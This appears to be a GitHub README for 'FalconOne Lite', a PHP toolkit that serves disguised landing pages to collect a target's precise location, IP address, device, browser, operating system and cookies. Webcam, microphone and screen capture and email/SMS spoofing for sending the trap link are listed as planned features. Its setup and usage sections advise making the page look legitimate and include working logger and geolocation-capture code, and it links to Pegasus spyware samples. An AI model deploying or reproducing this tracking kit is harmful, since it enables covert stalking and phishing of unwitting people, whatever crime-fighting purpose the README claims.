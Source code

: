 <p align="center">
  <img src="/FalconOne-logo-2022.png" />
</p>

<p align="center">(v.0.1) - Lite</p>


<hr>


FalconOne Lite is an Open Source solution deployed and updated on a daily basis to help prevent terror and crime. 
By using advanced tools, functions and stealth strategies, FalconOne community is focused on making a friendly and fast solution for effective results.

For more information about the FalconOne Pro, please send an email to the Team at prochan@strikevaults.com.

GENERAL NOTICE:

FalconOne Lite is deployed for ethical and educational purposes only. [Users Should READ the Terms before starting the installation process.](#8-user-Terms)

<br>

## Contents

1. [Functions Overview](#1-functions-overview)
2. [Scenarios](#1-Functions-Overview)
3. [Tool Overview](#3-Tool-Overview)
4. [Prerequisites](#4-Prerequisites)
5. [Installation/Setup](#5-InstallationSetup)
6. [Usage](#6-Usage)
7. [Community](#7-Community)
8. [User Terms](#8-user-Terms)
9. [Releases](#9-Releases)
10. [Templates](#10-Templates)


## 1. Functions Overview

### 1.1. Actual Version 0.1 (In Progress to v1.0)

- [x] Target Accurate Location (via Google API)
- [x] Target Public IP Address
- [x] Target Open Port
- [x] Target Device Model and its Version
- [x] Target Browser Model and its Version
- [x] Target Operating System and its Version
- [x] Target Cookies
- [ ] Target Webcam Activation
- [ ] Target Microphone Activation
- [ ] Target Screen Screenshot

### 1.2. Added Tools

- [ ] Email Spoof (to share the trapped landing page URL from a trusted email address)
- [ ] SMS Spoof (to share the trapped URL from a trusted phone number - This will require an API Key)


## 2. Scenarios

### 2.1. Got Scammed?

... In Progress

### 2.2. Dealing with a Kidnapper?

... In Progress

### 2.3. Aware of Malicious activities?

... In Progress

### 2.4. In Contact with a Missing Person?

... In Progress


## 3. Tool Overview

FalconOne Lite is based on PHP functions that collects and triggers browser's information functionalities via disguised HTML and CSS templates.
FalconOne Lite is coded as explained below:

### 3.1. Landing Page(s)

- index.html (landing page)
- index.php (Main Landing page)

### 3.2. Main Style

- styles/
  - /footer.css
  - /join.css
  - /main.css

### 3.3. PHP Functions

- forward.php

### 3.4. Loggers

- info.txt (for Locations)
- log.txt (for User-Agent information)
- l.log (for visits tracking - Only work with index.php)


## 4. Prerequisites

- Apache (Tested) or Nginx Server
- Public IP Address or a Tunnel (e.g. [Ngrok](https://ngrok.com/))
- Domain Name (Recommended for a legit approach)
- SSL Certificate (for a secure look)


## 5. Installation/Setup

- Upload the Zip file on your Web Server Public directory
- Unzip the FolconOne Lite uploaded file
- Customize index.html and CSS Styles files according to your trapping scenario


## 6. Usage

Once deployed, wait for the target to interact with the landing page functions such as buttons, links, images and popups.
Once the Target interacts with the Landing page function(s), location(s) should be stored in info.txt and other information in log.txt.

The tracking script should be kept as is for activity tracking (l.log:

```php
<?php
if(filesize('./l.log') > 3000000) {
	@file_put_contents('./l.log', ""); // empty log if > 3MB.
	} else {
	$log = date("F j, Y, g:i a") . ' - '. $_SERVER['REMOTE_ADDR'].' - '.$_SERVER['HTTP_USER_AGENT'].' - '. $_SERVER['HTTP_REFERER'].' - '.$_SERVER['SCRIPT_NAME']. ' - '.$_SERVER['QUERY_STRING']. PHP_EOL;
	@file_put_contents('./l.log', htmlspecialchars($log,ENT_QUOTES,'UTF-8'), FILE_APPEND);
}
?>
```

The following PHP Functions logic in index.php should not be changed:

```php
<p id="errorMessage"></p>

<script>
let message = document.getElementById("errorMessage");

function getLocation(){
  if(navigator.geolocation){
    navigator.geolocation.getCurrentPosition(sendLocation);
  } else{ 
    message.innerHTML = "<em>Your browser is not supported.</em>";
  }
}

function sendLocation(geoLocation) {
  window.location = "forward.php?x="+geoLocation.coords.latitude+"&y="+geoLocation.coords.longitude;
}
</script>
```

In forward.php line 37, you can edit the redirection URL which is google.com by default:

```php
header('Location: https://www.google.com/');
```

Or else redirection on line 40 which is index.html by default:

```php
header('Location: index.php');
```

The main getLocation Hook function should be respected as below:

```html
<a class="yourstyle" onclick="getLocation()">Button</a>
```


## 7. Community

... In Progress


## 8. User Terms

- Users are not allowed to deploy FalconOne Lite for malicious operations
- Users are not allowed to sell FalconOne Lite
- FalconOne Lite is FREE
- FalconOne Lite can be edited according to Users needs


## 9. Releases

- January 11th, 2022: FalconOne Lite v.0.1 (Major Update - index.php and l.log added)
- January 9th, 2022: FalconOne Lite v.0.1 (Minor Update)
- January 8th, 2022: FalconOne Lite v.0.1 (Major Upload): Initial Code Upload


## 10. Templates

### 10.1. Geo-locate the Target

... In Progress

### 10.2. Take a Picture from the Target Webcam

... In Progress

### 10.2. Get a Voice Record from the Target Microphone

... In Progress

### 10.3. Take a Screenshot from the Target Device

... In Progress


## Extra Links for Fun

- Pegasus Spyware Samples Decompiled & Recompiled: [@jonathandata1](https://github.com/jonathandata1/pegasus_spyware)
- OSINT Tools Collections: [@cipher387](https://github.com/cipher387/osint_stuff_tool_collection)
